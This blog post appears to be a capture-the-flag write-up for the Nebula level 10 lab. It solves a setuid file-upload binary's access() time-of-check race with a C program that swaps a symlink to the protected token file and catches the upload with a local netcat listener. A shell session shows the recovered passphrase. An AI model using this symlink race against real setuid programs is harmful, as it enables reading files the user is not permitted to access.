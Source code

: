 ```yaml
---
layout: post
title: "Race condition"
category: CTF, Nebula
---
```


>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; **[Nebula 10](http://exploit-exercises.com/nebula/level09) Agenda**: "The setuid binary at "_/home/flag10/flag10_" will upload any file given, as long as it meets the requirements of the "_access()_" system call"

<center>
	<img src="/images/2015-04-25-race_condition/czLY2.jpg">
</center>
We have a classic [TOCTOU](http://en.wikipedia.org/wiki/Time_of_check_to_time_of_use) issue. There's no need for more explanation, because all things are perfectly fleshed out on the wikipedia. I wrote some anchor point which in order is playing with symlinks replacement until succeed:

{% highlight c linenos %}
/** PWN_10.c **/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/mman.h>

#define BANNER ".oO Oo."
#define MOCKUP "some text"
#define LISTENER "nc -lk 18211"

const int BUFF_SIZE = 64;
static int *is_found = 0;

int check_success(char *banner, char *data) 
{
    return (strstr(banner, BANNER) != NULL)
        && (strstr(data, MOCKUP)   == NULL);
}

void setup_listener() 
{
    char prev_line[BUFF_SIZE];
    char curr_line[BUFF_SIZE];

    FILE *fd = popen(LISTENER, "r");

    while (fgets(curr_line, BUFF_SIZE, fd) != NULL) 
    {
        if (check_success(prev_line, curr_line)) 
        {
            *is_found = 1;
            printf("\n\nThe passprase is: %s\n\n", curr_line);
            pclose(fd);
        }
        strcpy(prev_line, curr_line);
    }
}

void start_race()
{
    while (*is_found == 0) 
    {
        system("ln -sfn /tmp/dummy /tmp/lure");
        sleep(1);
        system("/home/flag10/flag10 /tmp/lure 127.0.0.1 & ln -sfn /home/flag10/token /tmp/lure");
    }
}

int main(int argc, char *argv[]) 
{
    is_found = mmap(NULL, sizeof *is_found, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);

    pid_t childPID = fork();

    if (childPID == 0) {
        setup_listener();
    } else {
        start_race();
    }

    exit(EXIT_SUCCESS);
}
{% endhighlight %}
Compile, prepare "_/tmp/dummy_", execute and "_Veni Vidi Vici_".
{% highlight sh linenos %}
level10@nebula:~$ gcc -o pwn PWN_10.c
level10@nebula:~$ echo "some text" > /tmp/dummy
level10@nebula:~$ ./pwn
You don't have access to /tmp/lure
Connecting to 127.0.0.1:18211 .. Connected!
Sending file ..

The passprase is: 615a2ce1-b2b5-4c76-8eed-8aa5c4015c27

wrote file!
Connecting to 127.0.0.1:18211 .. level10@nebula:~$ Connected!
Sending file .. wrote file!
{% endhighlight %}